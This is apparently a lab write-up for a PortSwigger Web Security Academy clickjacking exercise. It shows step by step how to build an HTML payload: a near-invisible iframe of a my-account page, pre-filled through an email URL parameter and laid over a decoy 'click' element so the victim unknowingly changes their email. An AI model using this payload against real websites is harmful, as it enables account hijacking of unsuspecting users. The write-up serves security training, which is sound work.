




### Clickjacking with form input data prefilled from a URL parameter : APPRENTICE

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Login via the given credentials and head to the my-account page.



> We need to replicate this page, this will be the decoy page.
> Above it we will place a transparent layer that when clicked prepopulates the email form and updates email.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.1; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:550px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0ae50047031807c3811b937600500049.web-security-academy.net/my-account"> </iframe> 
</body>
```

> In order to prefill the email, we need to first know the parameter name. 
> Doing that by inspecting the form element.



> It's `email`.
> Seeing if we can place `email` as a query parameter in the URl bar to see if it supports prepopulation.



> We added the email `newmi11ns@mins.com` as a query parameter and then requested that page, and in the response, we see the form has one of its inputs filled with the value we entered.
> Therefore, all that is remaining is for the user to click on the update email button for that value to be processed and used to become the new email.

> Thus, our HTML clickjacking payload will look like:
```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:450px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0ae50047031807c3811b937600500049.web-security-academy.net/my-account?email=newnew@new.com"> </iframe> 
</body>
```
> Similar to [[Portswigger/Clickjacking/Lab 1|Lab 1]], we first made sure that the 2 elements are exactly on top of another, the click and the update email button by putting the payload in the exploit server and viewing it.
> After we do that, we set the opacity to `0.00001` in order to make the actual target webpage transparent.



> Delivering the exploit to victim completes the lab.

---


